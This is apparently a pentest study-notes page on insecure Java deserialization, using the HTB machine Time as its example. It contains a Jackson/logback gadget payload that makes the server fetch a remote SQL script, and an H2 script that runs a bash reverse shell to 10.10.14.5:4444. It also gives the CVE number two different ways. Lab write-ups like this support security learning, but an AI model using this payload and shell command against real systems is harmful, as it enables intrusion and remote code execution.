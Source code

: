 # Deserialization

Deserialization exploits the fact that a website may directly pass user input to a function that does not check the user input, which may have malicious functions or code.&#x20;

## How it Works

We first need to understand what serialization is.

<figure><img src="../.gitbook/assets/image (16) (1) (2).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Websites would take in input via some function, and then serialize it into a certain format to be passed back to the server for processing. This format can be in form of a string, base64 encoded, binary, etc. Depends on the language and functions used for the website.&#x20;

The security flaw happens when the website deserializes it back and processes it. This would give an attacker control over objects passed into the application, which can be harmful. Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

It is impossible to check for every single potential thing in deserialized data to ensure it is safe. Also, even if checks are implemented, it may already be too late as the data can cause an exception in the code through the deserialization process.

This kind of attack mainly leads to RCE or DoS conditions on a website, which are really severe. **In short, never trust user input.**

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a website that basically takes in JSON input and beautifies it.

<figure><img src="../.gitbook/assets/image (11) (4) (2).png" alt=""><figcaption></figcaption></figure>

We can enter some random JSON objects and it would output it as you would expect. If we enter some weird input, an error like this would appear:

<figure><img src="../.gitbook/assets/image (4) (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384, which is an RCE exploit involving passing this URL as a JSON object to be serialized:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the website request any link of our own, and in this case, we can run SQL scripts directly through this callback. This would allow us to craft a malicious SQL Script that would give us a reverse shell.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```

This is one example of how input was not sanitised on the website, and it processed the JSON object we input although it was only supposed to beautify it.
